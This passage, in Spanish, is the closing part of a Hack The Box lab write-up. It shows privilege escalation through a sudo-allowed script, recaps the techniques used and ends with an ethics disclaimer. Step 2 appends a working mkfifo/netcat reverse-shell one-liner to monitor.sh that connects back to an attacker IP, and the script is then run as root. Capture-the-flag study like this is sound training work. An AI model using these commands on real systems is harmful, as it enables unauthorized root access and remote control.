 #### 1. Verificar permisos con `sudo -l`
```bash
sudo -l
```
Salida esperada:
```
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

#### 2. Insertar código de shell reversa en `monitor.sh`
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.X 1235 >/tmp/f' | tee -a monitor.sh
```

#### 3. Escuchar conexión en la máquina atacante
```bash
nc -lvnp 1235
```

#### 4. Ejecutar el script como `root`
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```
Obtendremos acceso como `root`. Buscamos la flag:
```bash
cat /root/flag_root.txt
```
Flag:
```
de5e5d6619862a8aa5b9b21......
```
---

### Notas finales

Este ejercicio de HTB nos ha permitido practicar:

- Enumeración de servicios y directorios.
- Explotación de un panel de administración vulnerable.
- Carga de una Web Shell para ejecución remota de comandos.
- Obtención de una Reverse Shell interactiva.
- Escalada de privilegios a root mediante un script con permisos de sudo.
- Esta explicación es una simplificación de la más extendida, y maravillosa, que se encuentra en: https://academy.hackthebox.com/module/details/77

## Consideraciones Éticas y Legales

Esta documentación se proporciona **exclusivamente con fines educativos**.
Las técnicas y procedimientos descritos están diseñados para ser aplicados en **entornos controlados**, como laboratorios personales o plataformas de formación como Hack The Box.

⚠ **IMPORTANTE:**  
El uso indebido de estos conocimientos en sistemas sin autorización constituye una violación de la ley y puede acarrear consecuencias legales graves.  
Antes de realizar cualquier prueba de seguridad, asegúrate de contar con el **consentimiento expreso** del propietario del sistema.
